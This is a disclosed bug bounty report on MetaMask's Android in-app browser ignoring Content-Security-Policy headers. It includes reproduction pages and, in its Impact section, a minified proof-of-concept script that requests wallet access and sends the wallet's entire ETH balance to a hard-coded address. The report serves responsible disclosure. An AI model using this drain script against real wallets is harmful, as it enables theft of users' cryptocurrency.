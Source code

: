 # MetaMask Browser (on Android) does not enforce Content-Security-Policy header

## Report Details
- **Report ID**: 1941767
- **URL**: https://hackerone.com/reports/1941767
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-04-11T10:19:32.222Z
- **Disclosed**: 2024-08-27T15:02:23.483Z

## Reporter
- **Username**: renniepak
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: metamask

## Vulnerability Information
Hi MetaMask Team,

Recently I came across a Cross-Site Scripting bug on the website of a well known crypto company. They had a very strict Content-Security-Policy header, effectively preventing me from achieving anything more then a simple HTML injection with it. That all changed when I opened up the website in MetaMasks browser (in the Android app), when all the sudden my XSS payload did execute. Upon further investigation, it seems that the browser in MetaMask ignores any Content-Security-Policy headers. 

I proceeded to perform some tests and noticed that the MetaMask Browser does accept (and enforces) a Content-Security-Policy when used within a `<meta>` tag. I searched the code to see if this is intended behaviour, possibly by deliberately disabling some security features, but I couldn't find any indicators to suggest this.

I doubted whether to report this as a vulnerability, since you could argue this is a defence-in-depth measure and not a vulnerability. But I then figured: MetaMask is a substantial part of the Web3 space and it's users largely depend on it's secure implementation. Websites use a Content-Security-Policy as a last line of defence against XSS attacks and count on this feature since it is [supported](https://caniuse.com/?search=CS) by every major browser for years already. Since MetaMask offers a browser within it's wallet, you would expect it to be "on par" with the security of any other browser, if not more secure since we are dealing with crypto currencies/assets. If, for example, Chrome all the sudden wouldn't support CSP any more , that would be seen as a huge vulnerability, and I guess it's fair to say the same for MetaMasks browser given this context.

## Reproduction

1. Install MetaMask (v6.1.1 (1079)) for Android and create a wallet. 
2. In a regular browser (on a desktop) navigate to https://0-a.nl/cspmeta.php

```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<meta http-equiv="Content-Security-Policy" content="script-src 'none'">
	<title></title>
</head>
<body>
	CSP enforced with &lt;meta http-equiv=&quot;Content-Security-Policy&quot; content=&quot;script-src &#39;none&#39;&quot;&gt;
<script>alert('Javascript is executed.')</script>
</body>
</html>
```

Notice how our javascript `<script>alert('Javascript is executed.')</script>` is blocked by the browser (Chrome in this example):

{F2286112}

3. Now open the same url in MetaMask browser. Notice that it seems to be blocked here as well, as we don't get an `alert()` box.

{F2286116}

4. Now in the regular browser navigate to https://0-a.nl/cspheader.php

```php
<?php
header("Content-Security-Policy: script-src 'none'");

?>
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title></title>
</head>
<body>
	CSP enforced with header &lt;?php header(&quot;Content-Security-Policy: script-src &#39;none&#39;&quot;); ?&gt;
<script>alert('Javascript is executed.')</script>
</body>
</html>
```

Notice how our javascript is again blocked by the browser:

{F2286118}

5. Now open the same url in MetaMask browser:

Notice how our javascript IS executed despite the `Content-Security-Policy: script-src 'none'` header.

{F2286120}

## Impact

Websites use a Content-Security-Policy as a last line of defence against Cross-Site Scripting attacks. If it the browser fails to enforce the Content-Security-Policy as expected, a website that is vulnerable to Cross-Site Scripting can be compromised in numerous ways. One Metamask specific example is that the attacker could create a XSS payload that will interact with the MetaMask wallet directly. Since the victim (the user / wallet owner) is likely already "Connected" to the site with MetaMask, the XSS payload can immediately invoke transaction etc.

### Example

1. With the MetaMask browser navigate to https://0-a.nl/web3attack.php. Make sure to do this with a Wallet that has ETH balance (more than 0).

```php
<?php
header("Content-Security-Policy: script-src 'none'");
?>
<!DOCTYPE html>
<html>
<head>
<meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>

<div class="bg"></div>

<script src="https://cdnjs.cloudflare.com/ajax/libs/web3/1.2.7/web3.min.js"></script>
<script>setTimeout((async()=>{if(void 0!==window.ethereum){window.web3=new window.Web3(window.ethereum);try{await window.ethereum.enable();var e=await window.web3.eth.getAccounts(),t=await window.web3.eth.getBalance(e[0]),w="0xeEF05b25dF83A481D22778a2d28CaFAD38d0fA59";let i=t;i=window.web3.utils.toBN(i).sub(window.web3.utils.toBN(21e3*window.web3.utils.toWei("1","gwei"))).toString(),window.web3.eth.sendTransaction({from:e[0],to:w,value:i,gasPrice:window.web3.utils.toWei("1","gwei"),gas:21e3},(()=>{}))}catch(e){}}}),1e3);</script>

</body>
</html>
```
 
2. Connect to 0-a.nl (this step wouldn't be necessary for a victim that already interacted with the vulnerable page via MetaMask browser)

{F2286122}

3. Notice how a transaction will be initiated by the "vulnerable" website to transfer out all ETH in the wallet despite that any javascript execution should be blocked according to the Content-Security-Policy.

{F2286123}

## Final notes

I am curious to hear how you feel about this issue. Like I explained before, I doubted to report this, but to resummarise my reasons to report this anyways:

- MetaMask is the most well known crypto wallet out there so the the impact is relatively large.
- When you offer a browser from **within** a crypto wallet you would expect the security measures to be "on par" with any modern browser, if not better.
- Documentation does not mention anywhere that the CSP header is ignored by the MetaMask browser
- As far as I could see, no code was present in https://github.com/MetaMask/metamask-mobile/ that suggest that this was disabled on purpose.
- Content-Security-Policy seems to be working but only when used in a `<meta>` tag

I thought this would warrant it to call this a vulnerability but of course that's for you to decide :)
If there are any questions or concerns, feel free to reach out! 

Kind regards,

René / renniepak

## Attachments
- Screenshot_2023-04-11_100820.png
- Screenshot_2023-04-11_100834.png
- Screenshot_2023-04-11_100922.png
- Screenshot_2023-04-11_100906.png
- WhatsApp_Image_2023-04-11_at_09.42.57.jpeg
- WhatsApp_Image_2023-04-11_at_09.42.56.jpeg
